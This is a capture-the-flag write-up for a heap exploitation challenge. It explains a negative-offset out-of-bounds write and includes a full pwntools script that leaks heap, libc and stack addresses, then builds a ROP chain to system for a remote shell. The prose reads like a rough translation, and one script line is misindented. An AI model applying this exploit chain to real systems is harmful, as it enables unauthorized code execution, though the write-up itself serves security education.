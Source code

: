 ```yaml
---
title: "- Baby Heap - Alfarahidi CTF"
tags:
  - Pwn
  - CTF 
  - heap
---
```


# Description:

It's not baby heap lol 


# Overview:

During the initialization phase, [0,15] memory pages were randomly lifted, and a tcache list with a starting size of 0x291 was also created, which was well received. 

Then randomly allocate 16 chunks of sum `0x10`and `0x28`size on the heap, respectively as `header`and `data`, the data structure is as follows. 

```c
- header:
    
    0x0: size ( signed long long)
    
    0x8: ptr (char*)
    
- data:
    
    0x0: data (char[0x28])
```

There will be no new malloc behavior from now on.

In the allocation stage, randomly pick one from each `header`and `data`put it into the list on bss. The entire process applies to more than 16 direct `exit(0)`.

Deletion also clears `header`the pointer in, and there is no UAF.

`show`When using the function `write(1,header->ptr,header->size)`, you can ignore 0 and truncate the leaked information.

**Vulnerability point analysis :** 

`edit`In the function, `offset`there is no check for negative numbers, which results in arbitrary writing to lower addresses on the heap, specifically `header->ptr[offset]`.

Because the sum of the heap `header`is `data`initialized `malloc`, the addresses are consecutive and only `add`randomly assigned during the process. Therefore, there is a higher probability `header`that it will be `data`adjacent.

- The total size of the large heap blocks allocated during initialization is always a multiple of 0x1000, which will only affect heap_base in units of memory pages and will have little impact on our next use.

Then we can start spraying. Assume that there is at least one `header`and `data`adjacent, find any one `data`, modify its adjacent `header`size field forward, and then stack `show`all the blocks one by one. If the assumption is true, we will receive data with a length greater than 0x28 .

In this way, we can get the address on the heap and then `header`the `data`address of the page where it is located.

Remember that the randomly selected heap block id is `random_idx`, and find `show`the heap block id that can produce data `target_idx`.

Then we clear the lower 12 bits `random_idx`of `header->data`the pointer to zero, and then get the memory distribution of the entire page.

Next we consider how to get libc.

Since the deletion process will delete the pointer, we cannot directly use `random_idx`the sum used in the previous step *target_idx*. We need to control another pointer to point to the heap block of size 0xd60 allocated during the initialization phase.

We can randomly pick one with *random_idx* different *target_idx* IDs *header*, find the one that corresponds to it *data*, calculate the distance between this *header*  and *data* the other, and then we will get another controllable one `header`, and further use it to complete the free of large blocks.

It is very simple to construct arbitrary reading and writing. You can change and write at will with the `random_idx`and `target_idx`.

With libc and arbitrary reading and writing, you can consider how to getshell.

`main`It's OK `return 0`, consider leaking env and stacking it.

Although the local hit probability is not very high (the physical sense is less than 50%), the remote hit probability is still quite high. I hit it three times.

```python
from pwn import *
context(arch='amd64', os='linux', log_level='info')
#s=process('./src/pwn')
#s=remote("localhost",10002)
s = remote('15.237.60.47',10002)
elf=ELF('./src/pwn')
libc=ELF("./src/libc.so.6")

def menu(choice):
    s.sendlineafter(b"choice: ",str(choice).encode())
def add(idx,content=b"/bin/sh\x00"):
    menu(1)
    s.sendlineafter(b"idx: ",str(idx).encode())
    s.sendlineafter(b"data: ",content)

def edit(idx,off,content):
    menu(2)
    s.sendlineafter(b"idx: ",str(idx).encode())
    s.sendlineafter(b"offset: ",str(off).encode())
    s.sendlineafter(b"data: ",content)

def show(idx):
    menu(3)
    s.sendlineafter(b"idx: ",str(idx).encode())
    s.recvuntil(b"Data: ")
    return s.recvline()[:-1]

def delete(idx):
    menu(4)
    s.sendlineafter(b"idx: ",str(idx).encode())

def test(dat):
    context.log_level="info"
    tests=process("./pwn")
    context.log_level="debug"
    tests.send(dat)
    context.log_level="info"
    tests.close()
    context.log_level="debug"

if __name__=="__main__":
   # pause()
    # spray heap with idx, binsh seems useless
    for i in range(0x10):
        add(i,p64(0xd0+i)+b"/bin/sh\x00")
    # randomly choose an header, modify its neighbour header->size
    # to a bigger one, prepare to leak when show
    edit(3,-0x20,b"\x90\x21")
    # try hit, if hit, then data len should be the length we set
    # in our previous step
    flag=0
    target_idx=0
    for i in range(0x10):
        dat=show(i)
        if len(dat)!=0x28:
            info(hex(len(dat)))
            flag=1
            target_idx=i
            break
    if not flag:
        error("failed to leak")

    # clear low 12 bits to zero, show from "heap base"
    # then we can know what's on mem
    pos=dat.find(p64(0x28))
    heap_base=u64(dat[pos+8:pos+16])&(~0xfff)
    info(hex(heap_base))
    edit(3,-0x18,p64(heap_base)[:6])
    dat=show(target_idx)

    # choose the first header, and try to find its data and modify
    # its ptr to 0xd71 chunks malloced in init phase.
    # There's some simple assertions.
    # Can be removed if you scan other ptrs on heap when the first failed.
    pos=dat.find(b"\x56")
    if pos==-1:
        pos=dat.find(b"\x55")
    if pos==-1:
        error("failed to find heap ptr")
    pos-=5
    heap_ptr=u64(dat[pos:pos+8])&(0xfff)
    evil_idx=u64(dat[heap_ptr:heap_ptr+8])-0xd0
    if evil_idx<0 or evil_idx>0x10:
        error("failed to find evil idx")
    info(hex(evil_idx))
    if pos-heap_ptr>0:
        error("fail to calc offset")
    

    edit(evil_idx,pos-heap_ptr,p64(heap_base-0xd70+0x10)[:6])
    delete(evil_idx)
    edit(3,-0x18,p64(heap_base-0xd70+0x10)[:6])
    dat=show(target_idx)
    libc.address=u64(dat[:8])-(0x7f5fc9912ce0-0x7f5fc96f9000)
    success(hex(libc.address))

    # Now we get libc base, leak environ then attack stack
    # should be a good idea.

	    edit(3,-0x18,p64(libc.sym.environ)[:6])
    stack=u64(show(target_idx)[:8])
    success(hex(stack))

    target=stack+(0x7ffd0cee3c38-0x7ffd0cee3d58)+8
    edit(3,-0x18,p64(target)[:6])
    edit(target_idx,-8,p64(libc.address+0x000000000002a3e5+1)[:6])
    edit(target_idx,0,p64(libc.address+0x000000000002a3e5)[:6])
    edit(target_idx,8,p64(libc.address+0x00000000001d8698)[:6])
    edit(target_idx,0x10,p64(libc.sym.system)[:6])
    s.interactive()
```
